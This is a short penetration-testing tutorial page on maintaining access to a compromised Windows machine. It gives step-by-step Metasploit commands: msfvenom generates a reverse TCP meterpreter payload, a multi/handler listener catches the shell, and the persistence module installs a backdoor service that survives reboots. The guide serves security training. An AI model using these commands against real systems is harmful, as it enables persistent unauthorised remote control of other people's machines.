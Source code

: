 # Maintaining Access

### Introduction

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for now.



### Generating a Payload w/ msfvenom

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell
2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
5. After setting your IP address as your "LHOST", start the listener with run
6. Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7. Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.



### Run the Persistence Module

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the sessions command in metasploit to list the active sessions)&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse\_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.

<figure><img src="../../../../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access such as adding users and rootkits.


